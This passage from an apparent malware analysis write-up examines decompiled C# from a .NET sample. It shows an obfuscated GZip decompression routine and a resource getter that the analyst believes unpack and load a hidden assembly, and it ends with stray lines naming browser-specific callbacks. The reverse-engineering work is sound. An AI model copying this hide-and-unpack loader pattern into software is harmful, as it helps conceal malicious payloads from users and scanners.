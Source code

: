 ```csharp
              "PowerPoint_Tools"
          }
      }
  }, null, null);
  return 23;
}
```

Finally, we now know that the debugger “stops” at LateBinding.LateCall(o, null, “Invoke”, …).

The “WeakReference” function in **Code 7** is very interesting b ecause it is loading some assembly from somewhere. The current assumption is that whatever it’s loading is the actual malware code.

But where is the assembly coming from? Apparently, if we go back at **Code 6**, we can see this clearly. The bytes are generated inside the “this.UUUUUUUUUUUUUUUU…” function:

#### Code 8
```csharp
public byte[] UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU(byte[] bytesToDecompress)  {
  byte[] result;
  using (GZipStream gzipStream = new GZipStream(new MemoryStream(bytesToDecompress), CompressionMode.Decompress)) {
      byte[] array = new byte[4096];
      using (MemoryStream memoryStream = new MemoryStream())   {
          int num;
          do   {
              num = gzipStream.Read(array, 0, 4096);
              bool flag = num > 0;
              if (flag)   {
                  memoryStream.Write(array, 0, num);
              }
          }
          while (num > 0);
          result = memoryStream.ToArray();
      }
  }
  return result;
```

Apparently the function in **Code 8** just decompresses some bytes. And we know that the bytes come from the `NetCodeGroup.UrlIdentityPermission` variable as shown in **Code 6**:

#### Code 9
```chsarp
internal static byte[] UrlIdentityPermission
{
  get
  {
      object objectValue = RuntimeHelpers.GetObjectValue(NetCodeGroup.ResourceManager.GetObject("UrlIdentityPermission", NetCodeGroup.resourceCulture));
      return (byte[])objectValue;
  }
}
```
It looks like the bytes are from the malware’s resources as we can see inside DnSpy:


[15]:  same as Callbacks[0] but specific to Pale Moon.
[16]: same as Callbacks[0] but specific to Waterfox.